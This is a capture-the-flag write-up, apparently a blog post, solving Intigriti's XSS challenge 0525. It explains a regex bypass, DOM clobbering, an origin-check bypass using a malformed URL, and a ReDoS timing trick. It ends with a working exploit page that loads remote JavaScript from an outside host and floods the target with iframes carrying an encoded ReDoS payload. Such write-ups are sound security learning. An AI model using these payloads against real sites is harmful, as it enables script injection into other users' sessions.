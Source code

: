 ```yaml
---
title: "Intigriti January Challenge 0525"
date: 2024-05-14 05:05:00 +0530
author: piyush
image: /assets/img/posts/intichall/inti.png
categories: [CTF, XSS]
tags: [ctf, xss, initigriti]
---
```


I really enjoyed solving this month's CTF [challenge](https://challenge-0525.intigriti.io/) hosted by [@Intigriti](https://x.com/intigriti) and crafted by [joaxcar](https://bsky.app/profile/joaxcar.bsky.social). It took me around 6 hours to solve the challenge. 

Let's get straight to the point. So this was the whole thing that we have to pop an XSS on:

```js
// utils
function safeURL(url){
 let normalizedURL = new URL(url, location)
 return normalizedURL.origin === location.origin
}

function addDynamicScript() {
    const src = window.CONFIG_SRC?.dataset["url"] || location.origin + "/confetti.js"
    if(safeURL(src)){
        const script = document.createElement('script');
        script.src = new URL(src);
        document.head.appendChild(script);
    }
}

// main
(function(){
    const params = new URLSearchParams(window.location.search);
    const name = params.get('name');

    if (name && name.match(/([a-zA-Z0-9]+|\s)+$/)) {
        const messageDiv = document.getElementById('message');
        const spinner = document.createElement('div');
        spinner.classList.add('spinner');
        messageDiv.appendChild(spinner);

        fetch(`/message?name=${encodeURIComponent(name)}`)
        .then(response => response.text())
        .then(data => {
            spinner.remove();
            messageDiv.innerHTML = DOMPurify.sanitize(data);
        })
        .catch(err => {
            spinner.remove();
            messageDiv.innerHTML = "Error fetching message.";
            console.error('Error fetching message:', err);
        });
        
    } else if(name) {
        const messageDiv = document.getElementById('message');
        messageDiv.innerHTML = "Error when parsing name";
    }

    // Load some non-misison-critical content
    requestIdleCallback(addDynamicScript);
})();
```

At first glance, it appeared to be quite tough and secure—with origin validation and the OG DOMPurify, it seemed nearly impossible to bypass. However, once I began examining the code line by line, the very first detail that caught my eye was this:

```js
const src = window.CONFIG_SRC?.dataset["url"] || location.origin + "/confetti.js"
```

This part looked suspicious, and I quickly realized that I'd need to use DOM clobbering to define `CONFIG_SRC`. Initially, I tried injecting HTML elements, but those attempts failed due to the regex filter. However, upon a closer look, I noticed the regex could be bypassed—it lacked the `^` anchor, meaning it didn’t enforce checks from the start of the input. For example, a string like `</strong> Some text` would pass because the regex only validates from where it starts to "make sense." Once I successfully bypassed the regex, I was excited to start injecting elements into the DOM. To clobber `CONFIG_SRC`, I added a `div` element with an `id` of `CONFIG_SRC` and a custom data attribute, like this:

```html
<div id='CONFIG_SRC' data-url='https://example.com'>
```

`data-url` was used because js was trying to get the URL from the URL-dataset attribute. I injected the above payload in the url like this and was pretty sure that it's gonna work. But as you guys know that CTF's are designed to challenge your understandings and hence it didn't worked. I tried debugging the code and later found that `window.CONFIG_SRC` is still undefined but the element was present is the DOM, I was like what the heck!! if it's in the DOM then why it isn't working. Then after sometime I noticed the `addDynamicScript` was used a callback to some weird function `requestIdleCallback`, I tried reading about it but trust me there's really not much about it is on the internet. I understood the basic working of it from the MDN Docs that it is used to call a function only when the event loop is not busy and is sitting idle, more specifically it's used to do some non important stuff that you don't want to hinder with the main thread when the even loop is busy rendering and doing some important stuff. I got the idea that it's executing when the fetch request is sent and is waiting for a response. Fetch is asynchronous so it's not on the main thread and the thread is mostly free while Fetch is waiting, and that's why the `addDynamicScript` function is being executed before the Fetch. After banging my head for few hours and I concluded that I somehow have to delay the execution of the `addDynamicScript` by making the main thread busy for sometime. I tried messing up with the regex to maybe do a Redos but didn't worked at that time (more on this later). I thought if I can't delay the execution then I may speed up the Fetch call, and this is where catches comes handy I tried injecting a cache header thought Burp and retried the attack and it worked this time because the Fetch was almost instant. Now the crucial thing was how to cache it, I again banged my head for some time and concluded that this is rabbit hole and I need to find some other way. After trying many ideas I thought of to let the cache thing work by Burp custom header injection and proceed with the next step of the challenge, that was to bypass this origin check done in `safeURL`.

```js
function safeURL(url){
 let normalizedURL = new URL(url, location)
 return normalizedURL.origin === location.origin
}
```

I had any idea that this can be bypassed because of the different implementations of the `URL` constructors in the two functions, I was sure that there must be some discrepancy issue there. I quickly turned up to the devtools and started debugging the values of those variables. After around an hour or so of debugging and fuzzing I was able to bypass it with this payload:

```
https:/example.com/
```

Notice that there's only one `:` used here after `https` and that fools the `URL` constructor into believing that it's any absolute URL and it has to append it to the `window.location`. And then when it check the origin of the both URL's they are same. But when the URL passed as it is without an origin it is forced to parse the URL and fix the `:` issue. Voila!! we bypassed the origin check and a JS file hosted on any domain can serve as our XSS payload and pop and alert. But not this easy, I still had to bypass the `requestIdleCallback` things.

This is the point when I sought some help from hint's posted by Intigriti. But none of them made sense to me at least at that point. I just had an idea from the hint that we have to play with some kind of window isolation stuff or something similar.
```
You are keeping your windows isolated right?
```

Was still not sure what it was pointing to. But then I noticed that the page didn't had any kind of headers or anything to block framing. I thought framing might help, I tried framing it and to make the event loop busy for a while I tried loading some render heavy elements on the page and after some iterations I was successful in pop-ing an alert in Chrome. But from the discord server I had an idea that the main nightmare is pop-ing this in Firefox. I opened the same exploit in Firefox and as expected it didn't worked. So as a side note when I hack or play CTF's there's a general rule I follow rather than just doing random stuff and that is, I first try to get the idea and then implement it and if doesn't works then try finding the root cause, if it something fixable then try to fix it or move to some other idea. So I tried the idea but it didn't worked, I was curious why, I started digging deeper, after a while I concluded that Firefox is running the challenge frame in an separate thread because the parent was on a different origin(This is not this simple and straight forward but for the sake of brevity lets assume that the reason is the cross origin nature of the parent and the child, (more here)[https://hassansin.github.io/shared-event-loop-among-same-origin-windows]). This left me in awe that what now? I tried finding gadgets before on the challenge page and it didn't had anything and form the cross origin parent page I had nothing to influence the other thread.
I tried contacting Johan and he told me that what you are looking for is in the hints. I don't know why but my brain threw me an error message that I saw before when I was messing with the Regex. The error was:
```
Uncaught InternalError: too much recursion
```
This was happening because of the name parameter being too long for the regex to match and ultimately it was making the thread busy, I was sure that I have found the solution and quickly tried implementing it. Again after some iterations I was able to trigger the XSS by framing multiple XSS Redos payload and one frame that contained the XSS payload. 

Here's the dirty code:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Exploit</title>
  </head>
  <body>
    <iframe
      width="50%"
      height="100%"
      src="https://challenge-0525.intigriti.io/index.html?name=%3C/strong%3E%3Cdiv%20id=CONFIG_SRC%20data-url=%22https:/temp.staticsave.com/6821d52de70e4.js%22%3Ell%3C/div%3Edcsd"
    ></iframe>
    <div class="container"></div>

    <script>
      function renderRedosFrames() {
        var ele = `<iframe
      width="50%"
      height="100%"
      src="https://challenge-0525.intigriti.io/index.html?name=wededwedwedwed25%32%36%25%36%34%25%36%ewdewedwedwedwedwedwedwededw33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%25%33%33%25%33%31%25%33%39%25%33%32%25%32%36%25%35%65%25%32%35%25%35%65%25%32%36%25%32%61%25%32%38%25%32%39%25%32%39%25%32%38%25%32%61%25%32%36%25%35%65%25%32%35%25%32%34%25%32%33%25%34%30%25%32%36%25%36%34%25%36%33%25%37%33%25%36%34%25%36%33%25%36%34%25%36%33%25%37%33%25%36%33%25%37%33%25%36%34%25%36%34%25%33%39%25%33%33%25%33%30%25%33%38%25%33%32%25%33%33%25%33%37%25%36%65%25%33%32%25%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%255%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%%33%38%5%33%33%25%33%37%25%33%34%25%33%34%25%33%39%25%33%33%25%33%32%25%33%34%25%33%32%25%33%33%25%33%34%25%33%39%25%33%37%25%33%33%25%33%30%25%33%30%25%33%31%25%33%32%25%33%38%5%ffsdcdcsdsdcsdcdscdcsccsdcsdcscsdcd9876543456&&name=dcsdcscdsc"
    ></iframe>`;
        var container = document.querySelector(".container");
        container.innerHTML = ele;

        for (var i = 0; i < 5; i++) {
          container.innerHTML += ele;
        }
      }

      // setTimeout(run, 10);
      setTimeout(renderRedosFrames, 50);
    </script>
  </body>
</html>
```